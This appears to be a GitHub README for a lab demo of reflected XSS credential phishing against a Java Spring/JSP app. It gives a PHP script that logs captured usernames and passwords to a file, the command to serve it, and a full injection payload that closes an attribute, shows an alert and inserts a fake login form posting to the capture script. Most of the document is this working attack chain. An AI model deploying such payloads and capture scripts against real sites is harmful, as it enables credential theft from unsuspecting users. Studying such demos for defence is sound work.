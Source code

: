 
---

## 🔧 Technologies Used

- Java Spring MVC + JSP (Tomcat)
- PHP (capture script)
- Browser-based DOM XSS exploitation
- URL encoding for payload delivery

---

## 🚀 How to Run

### ✅ Part 1: Host the Vulnerable Web App
1. Deploy the Java Spring app on Tomcat.
2. Make sure `index.jsp` reflects user input from a query string (`?studentName=`).

### ✅ Part 2: Host the Credential Capture Script
1. Create a file `capture.php`:
   ```php
   <?php
   if ($_SERVER["REQUEST_METHOD"] == "POST") {
       $username = htmlspecialchars($_POST["username"]);
       $password = htmlspecialchars($_POST["password"]);
       echo "<h2>Captured Credentials</h2>";
       echo "Username: $username<br>Password: $password<br>";
       file_put_contents("creds.txt", "Username: $username | Password: $password\n", FILE_APPEND);
   }
   ?>


## Start the PHP server and make sure you get the POST request once after capturing the cred
php -S 0.0.0.0:8000





## Form action in your XSS payload should point to:
http://localhost:8000/capture.php


## Paste the payload in to the query
/*
"><script>alert('Please login first');</script>
<h3>LOGIN</h3>
<form action='http://localhost:8000/capture.php' method='post'>
  <label>Username:</label><input type='text' name='username'>
  <label>Password:</label><input type='password' name='password'>
  <input type='submit' value='Login'>
</form>
*/



